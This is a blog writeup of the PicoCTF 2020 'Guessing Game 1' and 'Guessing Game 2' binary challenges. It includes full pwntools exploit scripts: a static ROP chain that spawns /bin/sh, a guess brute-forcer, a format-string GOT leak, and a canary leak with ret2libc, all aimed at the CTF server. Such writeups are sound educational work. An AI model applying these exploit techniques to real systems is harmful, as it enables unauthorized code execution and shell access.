 ```yaml
---
title: "Picoctf2020 Writeup"
date: 2022-11-26T20:50:21+08:00
summary: Guessing Game
categories: ["writeup"]
---
```


# PicoCTF 2020 Writeup

## Guessing Game 1

First, let's analyze compilation parameters. `-m64` means 64-bit binary. `-fno-stack-protector` means no canary. `-O0` means no magic compiler optimization, which isn't so important. `-no-pie`, good news! `-static` means ROP? A small note, if using pwntools checksec `pwn checksec vuln`, pwntools says "Canary found". I think it is due to static linking.

Then, let's read the source code. The first vulnerability is no srand which means we break the guessing part easily. The next vulnerability is fgets in win function which is a buffer overflow vulnerability. So, the idea how to exploit is ROP in static binary.

How to ROP? Our goal is to get a shell. There is no system no execve. The last we can use is syscall. One thing I learned in this challenge is pwntools ROP is not so smart. Manually written ROP is more reliable. How to create a `/bin/sh` string? Use `mov [rxx] rxx` to write this string to writeable memory.

The exploit script is as follows.

```python
import pwn

pwn.context.update(arch='amd64', os='linux', encoding='utf-8')

data_addr = 0x00000000006BA360

pop_rsi_addr = 0x0048ed33
pop_rax_addr = 0x00476407
mov_rsi_rax_addr = 0x0047ff91
syscall_addr = 0x00485e95
pop_rdi_addr = 0x0049220f
pop_rdx_addr = 0x004afe92

payload = pwn.p64(pop_rsi_addr) + pwn.p64(data_addr) + pwn.p64(pop_rax_addr) + b'/bin/sh\x00' + pwn.p64(mov_rsi_rax_addr) + pwn.p64(pop_rdi_addr) + pwn.p64(data_addr) + pwn.p64(pop_rsi_addr) + pwn.p64(0) + pwn.p64(pop_rdx_addr) + pwn.p64(0) + pwn.p64(pop_rax_addr) + pwn.p64(59) + pwn.p64(syscall_addr)


res = b"84\n" + (pwn.cyclic(0x78) + payload).ljust(360, b'0') + b"\n"

# with pwn.process("./vuln") as io:
with pwn.remote("jupiter.challenges.picoctf.org", 26735) as io:
    io.sendline(b"84")
    io.recvrepeat(0.1)
    io.sendline((pwn.cyclic(0x78) + payload).ljust(360, b'0'))
    io.interactive()

```

## Guessing Game 2

First, let's analyze compilation parameters. `-m32` means 32 bit. `-no-pie`, good news. `-Wl,-z,relro,-z,now`, means full relro. It's impossible to modify got table. And we should deal with canary this time.

Then, let's read the source code. The first vulnerability is in `get_random()`. It uses the address of `rand` function modulo 4096. We know that the last 12 bit of function address is fixed. So we can bruteforce it one time.

```python
import pwn
with pwn.remote("jupiter.challenges.picoctf.org", 57529) as io:
    for i in range(-4095, 4096):
        io.sendline(str(i).encode())
        res = io.recvrepeat(0.1)
        if "Congrats" in res.decode():
            print("Success!")
            print(i)
            break

```

The answer is -3727.

The next vulnerability is in `win` function. `gets` means a buffer overflow vulnerability. However, we need to deal with canary before exploit using ROP. `printf(winner);` means a format string vulnerability. I thought about leaking GOT table and getting information about libc. But don't know how to deal with canary. After reading others' writeup, I realized the format string vulnerability can leak the canary as well. So, the idea is leaking the canary, leaking one of the libc function address to know libc base address and ret2libc.

I use the following scripts to leak some function address of libc and use libc.rip to get the version of libc. Interestingly, there are two possible libc version, libc6-i386_2.27-3ubuntu1.5_amd64 and libc6-i386_2.27-3ubuntu1.6_amd64. Most of symbols in these two libc are just the same. I'm curious about why they look the same and find [Ubuntu packaging versioning scheme](https://wiki.ubuntu.com/AutoStatic/PackagingVersioningScheme). 2.27 is upstream version. 3 is debian revision. Ubuntu1 is Ubuntu revision. .6 is Ubuntu security revision.


```python
import pwn

pwn.context.update(arch='i686', os='linux', encoding='utf-8')

got_dict = {
    "gets": 0x08049FCC,
    "fgets": 0x08049FD0,
    "puts": 0x08049FDC,
    "printf": 0x08049FC8,
    "rand": 0x08049FF8,
    "atol": 0x08049FE4,
}

with pwn.remote("jupiter.challenges.picoctf.org", 57529) as io:
    for i, j in got_dict.items():
        payload = b"-3727\n"
        payload += pwn.p32(j) + b"%7$s\n"
        io.send(payload)
        res = io.recvrepeat(0.5)
        print(res)
        congrats_index = res.index(b"Congrats: ")
        address = hex(pwn.u32(res[congrats_index + 14: congrats_index + 18]))
        print(i, address)

```

How to get shell? I try to use one_gadget t first. I realized one_gadget in 32 bit is hard according to this [blog](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html). What's more, I'm not familiar with 32 bit assembly and syscall. So, I choose `system` function to get a shell. One caveat, there should be a 4 byte padding between address of `system` and address of `/bin/sh` because normally calling `system` will push the return address into stack.

```python
import re
import pwn

pwn.context.update(arch='i686', os='linux', encoding='utf-8')

gets_plt = 0x08049FCC
sh_addr = 0x0017B9DB
gets_addr = 0x00066ce0
system_addr = 0x0003cf10

ans = "-3727"

canary_re = re.compile(r"^Name\? Congrats: (0x[0-9a-f]*)$", re.M)

with pwn.remote("jupiter.challenges.picoctf.org", 57529) as io:
    payload = ans.encode() + b"\n" + b'%135$p\n'
    io.send(payload)
    res = io.recvrepeat(0.5)
    print(res.decode())
    canary = int(canary_re.search(res.decode()).group(1), 16)

    payload = ans.encode() + b"\n" + pwn.p32(gets_plt) + b"%7$s\n"

    io.send(payload)
    res = io.recvrepeat(0.5)
    print(res)
    congrats_index = res.index(b"Congrats: ")
    address = pwn.u32(res[congrats_index + 14: congrats_index + 18])
    print(f"gets addr: {address:x}")

    libc_base = address - gets_addr

    print(hex(libc_base))

    payload = ans.encode() + b"\n" + pwn.cyclic(0x200) + pwn.p32(canary) + pwn.cyclic(12) + pwn.p32(system_addr + libc_base) + pwn.p32(0) + pwn.p32(sh_addr + libc_base) + b"\n"
    print(payload)
    io.send(payload)
    io.interactive()

```
